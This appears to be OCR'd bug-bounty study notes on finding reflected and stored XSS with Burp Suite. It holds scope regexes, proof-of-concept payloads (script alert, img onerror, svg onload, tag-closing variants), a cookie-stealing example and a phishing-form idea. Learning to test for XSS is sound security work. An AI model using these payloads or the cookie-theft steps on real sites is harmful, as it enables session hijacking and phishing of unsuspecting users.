1.	Reflected XSS
•	Steps to Hunt XSS
1.	Mapping/ Crawling Application
	First add the target into the scope and then click/use each and every function/link in the target.com 
	If inscope is like *.wku.edu then add In Scope
	.*\.wku\.edu$
	1) Go to target-> Scope-> Use advance scope control-> add
	2) Add Host regex:  .*\.facebook\.com$
	3) go to Site map-> Show only in-scope items
	4) All subdomains of http://facebook.com added :)
	.*\.test\.com$
	.*\.test\.*$
	(^|^[^:]+:\/\/|[^\.]+\.)zscaler.*
2.	Pick the parameters
	Now u will see ✔️ parameters in GET and POST (Target> Site map> Contents) Sort it.
	GET is used to request data from a specified resource.
	/test/demo_form.php?name1=value1&name2=value2
	POST is used to send data to a server to create/update a resource.
	POST /test/demo_form.php HTTP/1.1
	Host: target.com
	name1=value1&name2=value2
3.	Check Reflection
	Check every parameter by Send to Repeater.
	Change GET values in Repeater and see by searching values in Response if it reflects or not.
4.	Create payload
	Payload is kinda like html injection, we can put tags here or can insert java script.
	html: <u> is used to underline, <h1> is heading.
	put <u> in the Response values, copy url and check into the browser for values in underline.
	</title><img+src+3dx+onerror%3dconfirm(1)>
	<script>alert(1)</script> it’s a java script used to display alert popup.
	Copy url, check into the browser for popup.
5.	Uncommon Payloads:
	<img src=x onerror=confirm(1)>
	<svg onload=confirm(1)>

•	Impact of XSS
o	Cookie Stealing
	<script>alert(document.cookie)</script>
	User cookie: login=test%2Ftest
	After getting the cookie, you can use it by Cookie Editor.
	Decode: Name: login | Value: test/test
o	Phishing
	Creating a html form on the website that looks similar to original login page.
2.	Stored XSS (Blind XSS)
•	There is a page ‘Contact Us’ in any site, it would be like Email; fname, lname, message so this all messages goes to admin, so that page can be vulnerable 
•	Xsshunter.com is a tool that used to find all kinds of cross-site scripting vulnerabilities, including the often-missed blind XSS.
o	Copy payloads insert into the website and whenever payloads run by someone you will get all information in XSS Fires tab.
•	xss-payload-list
•	Training-XSS-muscles XSS Gym Exercises
•	Exercise 01 Injection in Title Tag
o	If payload not reflecting in browser, then try to close tags.
o	Find the first tag which is closing after ur payload. (Which contains ‘</tag>’)
o	Copy it and put before ur payload: “</tag><script>alert(1)</script>asdf”
o	</title><script>alert(1)</script><u>asdf
o	Exercise 02: </noscript><script>alert(1)</script>asdf
o	Exercise 03: </style><script>alert(1)</script>asdf
o	Exercise 05: </h1><script>alert(1)</script>asdf
•	Exercise 04 Filtered Injection Inside Event Handler
o	onload="doSomething('asdf')